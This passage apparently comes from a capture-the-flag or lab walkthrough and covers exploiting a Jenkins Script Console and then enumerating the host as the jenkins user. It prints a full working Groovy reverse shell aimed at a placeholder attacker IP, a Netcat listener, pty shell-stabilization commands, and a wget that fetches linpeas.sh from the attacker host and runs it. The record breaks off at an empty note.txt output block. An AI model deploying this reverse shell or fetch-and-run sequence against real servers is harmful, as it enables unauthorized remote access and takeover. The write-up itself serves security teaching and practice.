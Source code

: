 ### 10. Exploit Jenkins Script Console
- Navigated to **Manage Jenkins > Script Console**, which allows running Groovy scripts with system privileges [].
- Used a Groovy reverse shell script:
  ```groovy
  String host = "[ATTACKER IP]";
  int port = 4444;
  String cmd = "/bin/bash";
  Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
  Socket s = new Socket(host, port);
  InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
  OutputStream po = p.getOutputStream(), so = s.getOutputStream();
  while (!s.isClosed()) {
      while (pi.available() > 0) so.write(pi.read());
      while (pe.available() > 0) so.write(pe.read());
      while (si.available() > 0) po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
          p.exitValue();
          break;
      } catch (Exception e) {}
  }
  p.destroy();
  s.close();
  ```
- Started a Netcat listener:
  ```bash
  nc -lvnp 4444
  ```
- Ran the script in the Jenkins Script Console.
- **Result**: Got a reverse shell as `jenkins`:
  ```bash
  id
  uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
  ```
- Stabilized the shell:
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  ```

### 11. Enumerate as jenkins
- Ran `linpeas.sh` again:
  ```bash
  cd /tmp
  wget http://[ATTACKER IP]:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- Found a suspicious file in `/opt`:
  ```bash
  cd /opt
  ls
  ```
- Output:
  ```
  note.txt
  ```
- Viewed `note.txt`:
  ```bash
  cat note.txt
  ```
- Content:
  ```
  ```
